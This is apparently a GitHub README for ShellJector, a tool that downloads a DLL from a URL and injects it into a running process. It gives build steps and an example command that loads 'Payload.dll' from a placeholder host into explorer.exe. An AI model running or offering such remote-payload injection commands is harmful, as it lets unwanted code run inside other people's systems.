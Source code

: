 # ShellJector (v2.0)
Manual map shellcode (aka byte array) injector wich can download DLL from the internet by URL  
Also take a look at [local](https://github.com/Wolf49406/ShellJectorLocal) version!

[![MSBuild](https://github.com/Wolf49406/ShellJector/actions/workflows/msbuild.yml/badge.svg?branch=main)](https://github.com/Wolf49406/ShellJector/actions/workflows/msbuild.yml)

## How to Build:
- Open `ShellJector.sln -> main.cpp`;
- Set `ProcName` and `DllURL`;
- Build;

## Usage:
- Go to \ShellJector\Build;
  - OR just download the [Latest Release](https://github.com/Wolf49406/ShellJector/releases/latest);
  - Set launch arguments (down below);
- Open Target Process;
- Open `ShellJector.exe`;

## Arguments:
You can set `ProcName` and `DllURL` with `-proc` and `-url` arguments  
(ex: `ShellJector.exe -proc explorer.exe -url "https://example.com/Payload.dll"`)  
Arguments are case **sensitive**!

## Notice:
ShellJector.exe will look for Payload.dll near itself!  

## Stargazers over time
[![Stargazers over time](https://starchart.cc/Wolf49406/ShellJector.svg?variant=adaptive)](https://starchart.cc/Wolf49406/ShellJector)
